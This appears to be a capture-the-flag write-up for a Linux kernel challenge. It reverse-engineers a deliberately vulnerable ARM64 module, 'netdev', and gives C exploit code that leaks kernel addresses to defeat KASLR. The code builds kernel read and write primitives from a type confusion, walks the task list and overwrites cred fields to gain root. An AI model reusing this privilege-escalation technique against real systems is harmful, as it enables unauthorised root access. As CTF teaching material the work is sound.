








# Solution

Run the solve script.

```bash
cd solve
./solve.py $IP_ADDRESS $PORT
```

## Netdev

The environment drops the player into an emulated Linux kernel with a Busybox userspace.
They are initialized as an unprivileged `ctf` user with uid 1000 so we can't read the flag.

```
$ nc localhost 5000
Booting kernel...
Boot took 1.53 seconds

Welcome to SVUSCG
tip: Run "stty -echo"
-sh: can't access tty; job control turned off
~ $ stty -echo
stty -echo
~ $ id && whoami
uid=1000(ctf) gid=1000 groups=1000
ctf
~ $ ls -l /flag.txt
-r--------    1 root     0               18 May 23 12:49 /flag.txt
~ $
```

The player does not have the permissions to read kernel addresses or dmesg, but they can se a kernel module called `netdev` is loaded.
```
~ $ lsmod
netdev 16384 0 [permanent], Live 0x0000000000000000 (O)
~ $ cat /proc/kallsyms | head
0000000000000000 T _text
0000000000000000 t __pi__text
0000000000000000 t bcm2835_handle_irq
0000000000000000 T _stext
0000000000000000 t __pi__stext
0000000000000000 T __irqentry_text_start
0000000000000000 t bcm2836_arm_irqchip_handle_irq
0000000000000000 t dw_apb_ictl_handle_irq
0000000000000000 t gic_handle_irq
0000000000000000 t gic_handle_irq
~ $ dmesg
dmesg: klogctl: Operation not permitted
~ $
```

The user is provided with a dockerfile to run the same kernel and kernel module but the flag is redacted.
Loading the kernel module into ghidra shows that it's an ARM64 kernel module.



The module initializes the device at `/proc/netdev`.



There are four ioctl commands.
- `0x40016e01` just sets the first byte of `netdev` to the provided argument (which matches the provided `NETDEV_CHANGE_MODE`)
- `0x40086e02` calls `set_destination` (which matches the provided `NETDEV_SET_DESTINATION`)
- `0x80086e03` calls `get_destination` (which matches the provided `NETDEV_GET_DESTINATION`)
- `0x40086e04` calls `send_advertisement` (which matches the provided `NETDEV_SEND_ADVERTISEMENT`)



## `set_destination`
The `set_destination` command accepts an 8-byte struct.
First it makes sure the netdev mode is `MODE_UNICAST`.
The first four bytes is the the ip version (ipv4 or ipv6) and it saves that version in `DAT_00100a08`.
Then it saves the 4-byte or 6-byte address in `DAT_00100a0a`.

This matches the provided struct in `netdev.h`
```
enum ip_version : short {
    IPV4 = 4,
    IPV6 = 6,
};
struct ip_address {
    enum ip_version version;
    union {
        char ipv4[4];
        char ipv6[6];
    } address;
};
```



## `get_destination`

The `get_destination` command makes sure the netdev mode is `MODE_UNICAST`
It accepts an argument of a userspace pointer to an `struct ip_address`.
It reads the version (first two bytes) and then it copies that amount of memory from the stored ip address.



For example if a user supplies 
```c
struct ip_address argument {
    .version = 4
};
```

Then it reads 4 bytes from the saved ip address in kernelspace.
If the user supplies
```c
struct ip_address argument {
    .version = UINT16_MAX
};
uint8_t buffer[UINT16_MAX - sizeof(struct ip_address)];
```

Then we read the ipv6 address and 65528 bytes *after* the address.

Challenge developers note: The kernel allocates memory then copies the buffer first,
because by default `copy_to_user` has are runtime bounds checks on the kernel object size.
Normally, we would only be able to provide a size of 6 because the `ip_address.address` object size is 6 bytes.
But the kernelspace allocation bypasses this bounds check to make the buffer over-read trivially easy.

## `device_read`

In addition to the ioctl interface, we can make regular read/write syscalls on the interface.
The netdev mode must be `MODE_LOOPBACK` or `MODE_UNICAST`.

Reading from the interface allocates a buffer of `len` bytes, and then reads `len` bytes from the ringbuffer object at `DAT_001009e8`.
Finally it copies the number of bytes read from the ringbuffer back to the user.



## `ringbuf_read`

The ring buffer is a textbook ring buffer struct that reads from a buffer, incrementing the `head` until it reaches the `tail`.



## `device_write`, `ringbuf_write`

Similar to `device_read`, and `ringbuf_write`, but for write operations.

We can exercise the ringbuffer using regular `echo` and `cat commands`
```
~ $ cat /proc/netdev # ringbuf is empty
~ $ echo 'hello world!' > /proc/netdev # Writes into the ringbuffer
~ $ cat /proc/netdev    
hello world!
~ $ cat /proc/netdev # We already emptied the ringbuffer
~ $
```

## `send_advertisement`

The command makes sure the netdev mode is in `MODE_BROADCAST` and lets the user send a `struct advertisement`.
```c
struct advertisement {
    char name[16];
    struct ip_address source;
    unsigned long long bandwidth;
};
```

However, there's a clear type confusion because the advertisement simply overwrites the entire `ring_buffer`.
So if we send our own ringbuf struct instead of an advertisement, we control the ringbuf data pointer,
giving us a trivial arbitrary ring/write primitive in the kernel.



## Solving

Before we start reading and writing from the kernel, we need to beat KASLR.
The buffer over-read lets us read past the ip address and into the `__this_module` data.
To get the offset from the address, we can root our own local instance of the emulator.
Since the player is given the same kernel, the addresses will be different but the offsets will be the same.

Here we can see `netdev` is `0xffffc0d92cfe2028 - 0xffffc0d92cfe0000 = 0x2028` away from the start of the module,
and `__this_module` is `0xffffc0d92cfe2880 - 0xffffc0d92cfe0000 = 0x2880` away from the start of the module.

```
~ # cat /proc/kallsyms | grep '\[netdev\]' | sort -h
ffffc0d92cfe0000 t $x	[netdev]
ffffc0d92cfe0000 t set_destination	[netdev]
ffffc0d92cfe0080 t device_read	[netdev]
ffffc0d92cfe01c8 t device_write	[netdev]
ffffc0d92cfe030c t send_advertisement	[netdev]
ffffc0d92cfe03e4 t get_destination	[netdev]
ffffc0d92cfe0540 t device_ioctl	[netdev]
ffffc0d92cfe0688 t init_module	[netdev]
ffffc0d92cfe0700 t $x	[netdev]
ffffc0d92cfe0700 t ringbuf_read	[netdev]
ffffc0d92cfe0760 t ringbuf_write	[netdev]
ffffc0d92cfe2000 d $d	[netdev]
ffffc0d92cfe2028 b $d	[netdev]
ffffc0d92cfe2028 b netdev	[netdev]
ffffc0d92cfe2058 b ringbuf_data	[netdev]
ffffc0d92cfe2858 d $d	[netdev]
ffffc0d92cfe2858 d lock	[netdev]
ffffc0d92cfe2880 d $d	[netdev]
ffffc0d92cfe2880 d __this_module	[netdev]
ffffc0d92cfe5000 r $d	[netdev]
ffffc0d92cfe5000 r proc_ops	[netdev]
ffffc0d92cfe5060 r .L144721	[netdev]
ffffc0d92cfe5093 r .L144722	[netdev]
ffffc0d92cfe50c6 r .L144723	[netdev]
ffffc0d92cfe50d8 r $d	[netdev]
ffffc0d92cfe50e0 r $d	[netdev]
ffffc0d92cfe5124 r $d	[netdev]
ffffc0d92cfe5124 r _note_19	[netdev]
ffffc0d92cfe513c r _note_18	[netdev]
```

So the code to leak the contents of `__this_module` (which contains a pointer to the `modules`) the code looks like this.

```c
struct netdev_t {
    uint8_t _offset0[0x2a];
    uint8_t ip_address[6];
};

// We can leak the kernel module metadata
struct module {
    uint64_t buf;
    void __kernel *modules; // Pointer to the `modules` struct
};

const struct module_symbols module_offsets = {
    .netdev = 0x2028,
    .__this_module = 0x2880,
};

// Get the offset from the start of the buffer to `__this_module`
size_t offset =
    module_offsets.__this_module -
    (module_offsets.netdev + offsetof(struct netdev_t, ip_address));

// Leak the `__this_module` struct
size_t dst_size = offset + sizeof(struct module) + sizeof(enum ip_version);
struct ip_address *dst = malloc(dst_size);
assert(dst != NULL);
dst->version = dst_size - sizeof(enum ip_version);

// Version is treated as the length
printf("Leaking %d bytes\n", dst->version);
result = ioctl(fd, NETDEV_GET_DESTINATION, dst);
if (result != 0) {
    perror("get dest failed");
    abort();
}

// We leaked `__this_module`, which contains a pointer to `modules`
struct module *this_module = (void *)&dst->address + offset;
printf("`modules` is at %p\n", this_module->modules);
```

Now that we have a pointer to `modules` we can use this get offsets in the base kernel image.
We'd like to get the pointer to the `init_task` which is a linked list of `task_struct`'s.
We can search the linked list for our own process's PID and then elevate our own privileges by overwriting our `cred`'s.

We can again use our own locally rooted instance to find symbol offsets.

We already found a pointer to `modules`, which has an offset of `0xffffdc346e70a038 - 0xffffdc346c600000 = 0x210a038`,
and a the offset of `init_task` is `0xffffdc346e684880 - 0xffffdc346c600000 = 0x2084880`.

```
~ # cat /proc/kallsyms | grep ' _text$'
ffffdc346c600000 T _text
~ # cat /proc/kallsyms | grep ' modules$'
ffffdc346e70a038 D modules
~ # cat /proc/kallsyms | grep ' init_task$'
ffffdc346e684880 D init_task
~ #
```

Now that we have a pointer to `init_task` we can use the `send_advertisement` command to read/write into kernelspace.

Here is a function for a kernel read primitive:
```c
size_t kread(int fd, void *dst, void __kernel *src, size_t count) {
    // Change to broadcast mode
    int result = ioctl(fd, NETDEV_CHANGE_MODE, MODE_BROADCAST);
    if (result != 0) {
        perror("change mode to broadcast failed");
        abort();
    }

    // Create the fake ringbuffer
    struct ring_buffer fake_ringbuf = {
        .head = 0, .tail = count, .cap = UINT64_MAX, .ptr = src};

    // Send the advertisement
    result = ioctl(fd, NETDEV_SEND_ADVERTISEMENT, &fake_ringbuf);
    if (result != 0) {
        perror("send advertisement failed");
        abort();
    }

    // Change to loopback mode
    result = ioctl(fd, NETDEV_CHANGE_MODE, MODE_LOOPBACK);
    if (result != 0) {
        perror("Change mode to loopback failed");
        abort();
    }

    // Read from the device
    ssize_t s = read(fd, dst, count);
    if (s < 0) {
        perror("Failed to read");
        abort();
    }

    return s;
}
```

And similarly, a kernel write primitive:
```c
size_t kwrite(int fd, void __kernel *dst, const void *src, size_t count) {
    // Change to broadcast mode
    int result = ioctl(fd, NETDEV_CHANGE_MODE, MODE_BROADCAST);
    if (result != 0) {
        perror("change mode to broadcast failed");
        abort();
    }

    // Create the fake ringbuffer
    struct ring_buffer fake_ringbuf = {
        .head = 0, .tail = 0, .cap = UINT64_MAX, .ptr = dst};

    // Send the advertisement
    result = ioctl(fd, NETDEV_SEND_ADVERTISEMENT, &fake_ringbuf);
    if (result != 0) {
        perror("send advertisement failed");
        abort();
    }

    // Change to loopback mode
    result = ioctl(fd, NETDEV_CHANGE_MODE, MODE_LOOPBACK);
    if (result != 0) {
        perror("Change mode to loopback failed");
        abort();
    }

    // Write to the device
    ssize_t s = write(fd, src, count);
    if (s < 0) {
        perror("Failed to write");
        abort();
    }

    return s;
}
```

Using these primitives, we can search for the `task_struct` that matches our current PID.
```c
// Get container_of(task->tasks.next, struct task_struct, tasks.next)
struct task_struct __kernel *next_task(int fd,
                                       struct task_struct __kernel *task) {
    struct task_struct __kernel *next;
    kread(fd, &next, &task->tasks.next, sizeof(void *));
    return container_of(next, struct task_struct, tasks.next);
}

//  ...
int32_t current_pid = getpid();
printf("Current pid %d\n", current_pid);

// Search for the task struct for our pid
struct task_struct __kernel *current_task = NULL;
struct task_struct __kernel *task = init_task;

// For each task
while ((task != NULL) && ((task = next_task(fd, task)) != init_task)) {
    // Get the pid
    int32_t pid;
    kread(fd, &pid, &task->pid, sizeof(int32_t));

    // Check if the pid matches our own
    if (pid == current_pid) {
        current_task = task;
        break;
    }
}

if (current_task == NULL) {
    puts("Could not find current task");
    abort();
}
printf("Found current task_struct at %p\n", current_task);
```

Finally, once we got the task_struct, we can overwrite the `suid` field, and elevate our privileges to root.
```c
// Find current cred struct
struct cred __kernel *cred;
kread(fd, &cred, &current_task->cred, sizeof(void *));
printf("Cred struct is at %p\n", cred);

uint32_t old_euid = geteuid();
printf("Current euid %d\n", old_euid);

// Overwrite cred
uint32_t zero = 0;
kwrite(fd, &cred->suid, &zero, sizeof(uint32_t));
seteuid(0);
printf("New euid %d\n", geteuid());

// Now that we're root, we can read the flag
int flag = open("/flag.txt", O_RDONLY);
if (flag < 0) {
    perror("Could not open /flag.txt");
    abort();
}

printf("\nGot flag ");
sendfile(1, flag, NULL, 64);
```
